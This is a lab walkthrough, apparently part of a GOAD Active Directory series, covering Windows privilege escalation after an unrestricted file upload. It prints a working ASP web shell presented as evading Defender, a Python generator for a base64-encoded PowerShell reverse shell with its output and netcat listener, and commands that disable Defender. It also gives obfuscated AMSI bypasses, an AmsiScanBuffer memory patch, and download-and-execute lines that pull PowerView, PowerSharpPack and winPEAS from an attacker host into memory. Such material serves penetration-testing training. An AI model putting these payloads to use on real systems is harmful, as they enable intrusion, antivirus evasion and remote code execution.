






# GOAD Part 7 - Privilege Escalation

In this part section we will focus a little bit on privilege escalation.

Let’s assume that we do have a webpage exposed somewhere that allows us to upload files, at some point we were able to straightforward upload the file we want to with no filter at all or we were even able to bypass any filter mechanism or WAF.



Let’s create a basic `.asp` payload for command execution and upload it.

> *At the time of writing, this avoid defender signature*

```python
<%
Function getResult(theParam)
    Dim objSh, objResult
    Set objSh = CreateObject("WScript.Shell")
    Set objResult = objSh.exec(theParam)
    getResult = objResult.StdOut.ReadAll
end Function
%>
<HTML>
    <BODY>
        Enter command:
            <FORM action="" method="POST">
                <input type="text" name="param" size=45 value="<%= myValue %>">
                <input type="submit" value="Run">
            </FORM>
            <p>
        Result :
        <% 
        myValue = request("param")
        thisDir = getResult("cmd /c" & myValue)
        Response.Write(thisDir)
        %>
        </p>
        <br>
    </BODY>
</HTML>
```

After uploading it we can simply call it from the upload directory and we are able now to execute OS commands in the machine.



We can continue from here using the webpage interface or we can get a reverse shell which is better.

Let’s use the following payload to generate a reverse shell and encode it to base64 so we can also bypass Windows Defender detection  as well.

```python
#!/usr/bin/env python
import base64
import sys

if len(sys.argv) < 3:
  print('usage : %s ip port' % sys.argv[0])
  sys.exit(0)

payload="""
$c = New-Object System.Net.Sockets.TCPClient('%s',%s);
$s = $c.GetStream();[byte[]]$b = 0..65535|%%{0};
while(($i = $s.Read($b, 0, $b.Length)) -ne 0){
    $d = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);
    $sb = (iex $d 2>&1 | Out-String );
    $sb = ([text.encoding]::ASCII).GetBytes($sb + 'ps> ');
    $s.Write($sb,0,$sb.Length);
    $s.Flush()
};
$c.Close()
""" % (sys.argv[1], sys.argv[2])

byte = payload.encode('utf-16-le')
b64 = base64.b64encode(byte)
print("powershell -exec bypass -enc %s" % b64.decode())
```

Creating the reverse shell and encoding it to base64.

`./Shell_ConvB64.py 10.4.10.1 53`

```python
powershell -exec bypass -enc CgAkAGMAIAA9ACAATgBlAHcALQBPAGIAagBlAGMAdAAgAFMAeQBzAHQAZQBtAC4ATgBlAHQALgBTAG8AYwBrAGUAdABzAC4AVABDAFAAQwBsAGkAZQBuAHQAKAAnADEAOQAyAC4AMQA2ADgALgA1ADYALgAxACcALAA1ADMAKQA7AAoAJABzACAAPQAgACQAYwAuAEcAZQB0AFMAdAByAGUAYQBtACgAKQA7AFsAYgB5AHQAZQBbAF0AXQAkAGIAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AAoAdwBoAGkAbABlACgAKAAkAGkAIAA9ACAAJABzAC4AUgBlAGEAZAAoACQAYgAsACAAMAAsACAAJABiAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewAKACAAIAAgACAAJABkACAAPQAgACgATgBlAHcALQBPAGIAagBlAGMAdAAgAC0AVAB5AHAAZQBOAGEAbQBlACAAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4AQQBTAEMASQBJAEUAbgBjAG8AZABpAG4AZwApAC4ARwBlAHQAUwB0AHIAaQBuAGcAKAAkAGIALAAwACwAIAAkAGkAKQA7AAoAIAAgACAAIAAkAHMAYgAgAD0AIAAoAGkAZQB4ACAAJABkACAAMgA+ACYAMQAgAHwAIABPAHUAdAAtAFMAdAByAGkAbgBnACAAKQA7AAoAIAAgACAAIAAkAHMAYgAgAD0AIAAoAFsAdABlAHgAdAAuAGUAbgBjAG8AZABpAG4AZwBdADoAOgBBAFMAQwBJAEkAKQAuAEcAZQB0AEIAeQB0AGUAcwAoACQAcwBiACAAKwAgACcAcABzAD4AIAAnACkAOwAKACAAIAAgACAAJABzAC4AVwByAGkAdABlACgAJABzAGIALAAwACwAJABzAGIALgBMAGUAbgBnAHQAaAApADsACgAgACAAIAAgACQAcwAuAEYAbAB1AHMAaAAoACkACgB9ADsACgAkAGMALgBDAGwAbwBzAGUAKAApAAoA
```

Now we can use this payload in base64 and execute it on our webpage.

`rlwrap nc -lnvp 53`



As we can see above, I used `rlwrap `with `NetCat`.

Once we are inside the target machine, we can start with a basic user enumeration command:
`whoami /all`



The command output shows us several valid info, User info, Group info and Privileges Info for this user.

As an IIS service user we got `SeImpersonatePrivilege` privilege, this privilege is enabled by default for this service account.

# **Privesc**

for this privesc we will focus on 2 types of privescs that got a “NOT FIX” by Microsoft which are PrintSpoofer and KrbRelay.

> *To do all following tests Windows Defender must enabled on all system. Castelblack got defender disabled by default, you should enable it before testing the privesc technics described here*

### Disable RealTime Defender using an Admin Account

`Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -DisableIOAVProtection $true
set-MpPreference -DisableAutoExclusions $true`

### Enable RealTime Defender using an Admin Account

`Set-MpPreference -DisableRealtimeMonitoring $false
Set-MpPreference -DisableIOAVProtection $false
set-MpPreference -DisableAutoExclusions $false`

## **AMSI - Anti-Malware Scan Interface bypass**

At a high level, think of AMSI like a bridge which connects powershell to the antivirus software, every command or script we run inside powershell is fetched by AMSI and sent to installed antivirus software for inspection.
AMSI works on signature-based detection. This means that for every particular malicious keyword, URL, function or procedure, AMSI has a related signature in its database. So, if an attacker uses that same keyword in his code again, AMSI blocks the execution then and there.

There are several ways to bypass this protection and this is what we will be focused in this session.

You can check several AMSI bypass in this [Repo](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell) by S3cur3Th1sSh1t.

There is also the website [amsi.fail](http://amsi.fail/) that generates obfuscated PowerShell snippets that break or disable AMSI for the current process.

This PDF is a nice resource to have a look on:

AMSI Bypass windows 11

If CMD non Admin right:

**RunWithRegistryNonAdmin.bat**

```shell
set COR_ENABLE_PROFILING=1
set COR_PROFILER={cf0d821e-299b-5307-a3d8-b283c03916db}

REG ADD "HKCU\Software\Classes\CLSID\{cf0d821e-299b-5307-a3d8-b283c03916db}" /f
REG ADD "HKCU\Software\Classes\CLSID\{cf0d821e-299b-5307-a3d8-b283c03916db}\InprocServer32" /f
REG ADD "HKCU\Software\Classes\CLSID\{cf0d821e-299b-5307-a3d8-b283c03916db}\InprocServer32" /ve /t REG_SZ /d "%~dp0InvisiShellProfiler.dll" /f

powershell

set COR_ENABLE_PROFILING=
set COR_PROFILER=
REG DELETE "HKCU\Software\Classes\CLSID\{cf0d821e-299b-5307-a3d8-b283c03916db}" /f
```

If CMD Admin right
**RunWithPathAsAdmin.bat**

```shell
set COR_ENABLE_PROFILING=1
set COR_PROFILER={cf0d821e-299b-5307-a3d8-b283c03916db}
set COR_PROFILER_PATH=%~dp0InvisiShellProfiler.dll

powershell

set COR_ENABLE_PROFILING=
set COR_PROFILER=
set COR_PROFILER_PATH=
```

Then in PowerShell

```shell
S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ([TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE (('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(("{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile') ),( "{2}{4}{0}{1}{3}" -f('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,' ))."sE`T`VaLUE"(${n`ULl},${t`RuE} )
```

`(New-Object Net.WebClient).DownloadFile('``[http://10.4.10.1:8080/PowerView.ps1','C:\\tmp\\PowerView.ps1](http://192.168.56.1:8080/PowerView.ps1%27,%27C:%5C%5Ctmp%5C%5CPowerView.ps1)``')`

Invisi-Shell 

AMSI Bypass (if you are in Powershell revershe shell using Evil-WinRM remote access to the target)

```shell
$x=[Ref].Assembly.GetType('System.Management.Automation.Am'+'siUt'+'ils');$y=$x.GetField('am'+'siCon'+'text',[Reflection.BindingFlags]'NonPublic,Static');$z=$y.GetValue($null);[Runtime.InteropServices.Marshal]::WriteInt32($z,0x41424344)
```

Once we have done that we can use the rasta mouse AMSI bypass to disable AMSI at the .net level. If you want to know why you have to do that, you should read this blog 
post from @ShitSecure explaining the difference between powershell and .net AMSI level : [https://s3cur3th1ssh1t.github.io/Powershell-and-the-.NET-AMSI-Interface/](https://s3cur3th1ssh1t.github.io/Powershell-and-the-.NET-AMSI-Interface/)

Now lets use Rasta-Mouse  AMSI-Bypass, add it to a .txt file and upload it to the target and execute it.

```shell
# Patching amsi.dll AmsiScanBuffer by rasta-mouse
$Win32 = @"

using System;
using System.Runtime.InteropServices;

public class Win32 {

    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);

    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

}
"@

Add-Type $Win32

$LoadLibrary = [Win32]::LoadLibrary("amsi.dll")
$Address = [Win32]::GetProcAddress($LoadLibrary, "AmsiScanBuffer")
$p = 0
[Win32]::VirtualProtect($Address, [uint32]5, 0x40, [ref]$p)
$Patch = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)
```

EXECUTION:

AMSI Bypass

`$x=[Ref].Assembly.GetType('``[System.Management.Automation.Am](http://system.management.automation.am/)``'+'siUt'+'ils');$y=$x.GetField('am'+'siCon'+'text'[Reflection.BindingFlags]'NonPublic,Static');$z=$y.GetValue($null);[Runtime.InteropServices.Marshal]::WriteInt32($z,0x41424344)
`Disable AMSI at the .net level`
(new-object system.net.webclient).downloadstring('http://10.4.10.1:8080/amsi.txt')|IEX`



- Once we have done that, we can play what we want with the condition to don’t touch the disk!
- We can now play all our .net application by running them directly with execute assembly.
## **WinPeas without touching disk**

Let’s use WinPEAS script to enumerate the machine and try to escalate our privilege. We can avoid AV detection now by hosting our LinPEAS on our attacking machine and load it in memory and play winPeas from memory with the following powershell commands (As winPeas is in .net we load the assembly and run it directly)

If you don’t want to be bored to compile .net app or modify them with public class and method and no exit.environment you can also use [PowerSharpPack](https://github.com/S3cur3Th1sSh1t/PowerSharpPack) and get everything done for you (thanks again to @ShitSecure).

```shell
iex(new-object net.webclient).downloadstring('http://10.4.10.1:8080/PowerSharpPack.ps1')
PowerSharpPack -winPEAS
```

After executing it we just have to wait for it and see the magic happening.

Analyzing winPEAS output, we can see that we do have some `SetImpersonatePrivilege` on the current user, so we can use it for privesc.



## **SeImpersonatePrivilege to Authority\system**

To escalate privileges from our low level user taking advantage of the `SetImpersonatePrivilege`, we can use one of the POTATOES techniques.

You can learn more about ***Potatoes Windows Privilege Escalation*** here: [https://jlajara.gitlab.io/Potatoes_Windows_Privesc](https://jlajara.gitlab.io/Potatoes_Windows_Privesc)

For this one we will use [SweetPotato](https://github.com/CCob/SweetPotato) which is a compilation of all potatoes.


---

*Back to [GOAD Overview](../README.md)*
